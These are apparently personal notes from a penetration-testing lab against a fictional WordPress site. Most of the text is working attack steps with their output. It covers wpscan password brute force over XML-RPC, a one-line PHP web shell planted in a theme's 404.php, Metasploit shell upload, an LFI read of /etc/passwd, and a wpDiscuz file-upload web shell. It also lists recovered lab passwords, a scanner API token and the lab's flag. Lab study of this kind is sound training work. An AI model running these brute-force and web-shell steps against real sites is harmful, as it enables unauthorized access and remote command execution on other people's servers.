# Attacking WordPress

## Login Bruteforce

sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

## Code Execution

Appearance > Theme Editor

Edit an uncommon page 404.php :
system($_GET[0]);

--> Update File 

curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

OR 

Use Metasploit :
use exploit/unix/webapp/wp_admin_shell_upload
set rhosts blog.inlanefreight.local
set username john
set password firebird1
set lhost 10.10.14.15
set rhost 10.129.42.195
set VHOST blog.inlanefreight.local
exploit
meterpreter > getuid

Metasploit creates wCoUuUPfIO.php to the /wp-content/plugins directory.
--> Ensure to cleanup

Add to the report :
Exploited systems (hostname/IP and method of exploitation)
Compromised users (account name, method of compromise, account type (local or domain))
Artifacts created on systems
Changes (such as adding a local admin user or modifying group membership)

## Leveraging Known Vulnerabilities

https://github.com/tomnomnom/waybackurls
Find older version of a target websites that can be still accessed

### Vulnerable Plugins - mail-masta

The plugin mail-masta is no longer supported.

Since 2016 it has suffered an unauthenticated SQL injection and a Local File Inclusion

Vulnerable code :

<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>

Exploitation :
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

### Vulnerable Plugins - wpDiscuz

https://www.exploit-db.com/exploits/49967
https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/

python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...

curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;
uid=33(www-data) gid=33(www-data) groups=33(www-data)

--> make sure to clean up the uthsdkbywoxeebg-1629904090.8191.php

## LAB

IP=10.129.54.128
printf "%s\t%s\n\n" "$IP" "app.inlanefreight.local dev.inlanefreight.local blog.inlanefreight.local" | sudo tee -a /etc/hosts

sudo gem install wpscan
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token BNZba2aykBraNiv7xYyWKxQmj5wRppDgiHs23AAMaHA

i] User(s) Identified:

[+] by:
									admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 5
 | Requests Remaining: 20

[+] Finished: Tue Jan  9 12:08:30 2024

sudo wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[SUCCESS] - doug / jessica1

http://blog.inlanefreight.local/wp-login.php

doug
jessica1

http://blog.inlanefreight.local/wp-admin/themes.php

http://blog.inlanefreight.local/wp-admin/theme-editor.php

http://blog.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen
system($_GET[0]);

--> Update File 

curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

grep -E '/bin/bash$' /etc/passwd


curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=cat%20%2Fetc%2Fpasswd

webadmin:x:1001:1001::/home/webadmin:/bin/bash

curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=ls%20-l%20%2Fvar%2Fwww%2Fhtml

find .-name flag 2> /dev/null

curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=find%20.-name%20flag%202%3E%20%2Fdev%2Fnull

--> Failed

use exploit/unix/webapp/wp_admin_shell_upload
set rhosts blog.inlanefreight.local
set username doug
set password jessica1
set lhost 10.10.14.217
set rhost 10.129.54.128
set VHOST blog.inlanefreight.local
exploit

[*] Exploit completed, but no session was created.


http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=ls%20-l%20%2F

total 68 
lrwxrwxrwx 1 root root 7 Apr 23 2020 bin -> usr/bin 
drwxr-xr-x 4 root root 4096 Sep 29 2021 boot 
drwxr-xr-x 2 root root 4096 Dec 15 2020 cdrom 
drwxr-xr-x 19 root root 3980 Jan 9 12:06 dev 
drwxr-xr-x 98 root root 4096 Sep 29 2021 etc 
drwxr-xr-x 4 root root 4096 Sep 29 2021 home 
lrwxrwxrwx 1 root root 7 Apr 23 2020 lib -> usr/lib 
lrwxrwxrwx 1 root root 9 Apr 23 2020 lib32 -> usr/lib32 
lrwxrwxrwx 1 root root 9 Apr 23 2020 lib64 -> usr/lib64 
lrwxrwxrwx 1 root root 10 Apr 23 2020 libx32 -> usr/libx32 drwx------ 2 root root 16384 Dec 15 2020 lost+found 
drwxr-xr-x 2 root root 4096 Apr 23 2020 media 
drwxr-xr-x 2 root root 4096 Apr 23 2020 mnt 
drwxr-xr-x 2 root root 4096 Apr 23 2020 opt dr-xr-xr-x 223 root root 0 Jan 9 12:06 proc drwx------ 6 root root 4096 Sep 30 2021 root 
drwxr-xr-x 29 root root 860 Jan 9 12:06 run 
lrwxrwxrwx 1 root root 8 Apr 23 2020 sbin -> usr/sbin 
drwxr-xr-x 7 root root 4096 Aug 16 2021 snap 
drwxr-xr-x 2 root root 4096 Apr 23 2020 srv dr-xr-xr-x 13 root root 0 Jan 9 12:06 sys 
drwxrwxrwt 2 root root 4096 Jan 9 12:37 tmp 
drwxr-xr-x 15 root root 4096 Aug 16 2021 usr 
drwxr-xr-x 14 root root 4096 Aug 16 2021 var 

http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=ls%20-l%20%2Fhome%2Fwebadmin
total 0 

http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=ls%20-l%20%2Fvar%2Fwww

total 760 drwxr-xr-x 17 www-data www-data 4096 Aug 24 2021 app.inlanefreight.local drwxr-x--- 5 www-data www-data 4096 Sep 21 2021 blog.inlanefreight.local drwxr-xr-x 17 www-data www-data 4096 Sep 21 2021 dev.inlanefreight.local drwxr-xr-x 9 www-data www-data 4096 Aug 24 2021 drupal-acc.inlanefreight.local drwxr-xr-x 8 www-data www-data 4096 Sep 16 2021 drupal-dev.inlanefreight.local drwxr-xr-x 9 www-data www-data 4096 Aug 24 2021 drupal-qa.inlanefreight.local drwxr-xr-x 8 www-data www-data 749568 Sep 21 2021 drupal.inlanefreight.local drwxr-xr-x 2 www-data www-data 4096 Aug 16 2021 html 

http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=ls%20-l%20%2Fvar%2Fwww%2Fblog.inlanefreight.local

total 220 -rw-r--r-- 1 root root 20 Sep 21 2021 flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt -rw-r----- 1 www-data www-data 405 Feb 6 2020 index.php -rw-r----- 1 www-data www-data 19915 Jan 1 2021 license.txt -rw-r----- 1 www-data www-data 7346 Jul 6 2021 readme.html -rw-r----- 1 www-data www-data 7165 Jan 21 2021 wp-activate.php drwxr-x--- 9 www-data www-data 4096 Jul 20 2021 wp-admin -rw-r----- 1 www-data www-data 351 Feb 6 2020 wp-blog-header.php -rw-r----- 1 www-data www-data 2328 Feb 17 2021 wp-comments-post.php -rw-r----- 1 www-data www-data 3004 May 21 2021 wp-config-sample.php -rw-r----- 1 www-data www-data 3363 Aug 24 2021 wp-config.php drwxr-x--- 6 www-data www-data 4096 Aug 25 2021 wp-content -rw-r----- 1 www-data www-data 3939 Jul 30 2020 wp-cron.php drwxr-x--- 25 www-data www-data 12288 Jul 20 2021 wp-includes -rw-r----- 1 www-data www-data 2496 Feb 6 2020 wp-links-opml.php -rw-r----- 1 www-data www-data 3900 May 15 2021 wp-load.php -rw-r----- 1 www-data www-data 45463 Apr 6 2021 wp-login.php -rw-r----- 1 www-data www-data 8509 Apr 14 2020 wp-mail.php -rw-r----- 1 www-data www-data 22297 Jun 1 2021 wp-settings.php -rw-r----- 1 www-data www-data 31693 May 7 2021 wp-signup.php -rw-r----- 1 www-data www-data 4747 Oct 8 2020 wp-trackback.php -rw-r----- 1 www-data www-data 3236 Jun 8 2020 xmlrpc.php 

http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=cat%20%2Fvar%2Fwww%2Fblog.inlanefreight.local%2Fflag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
l00k_ma_unAuth_rc3! 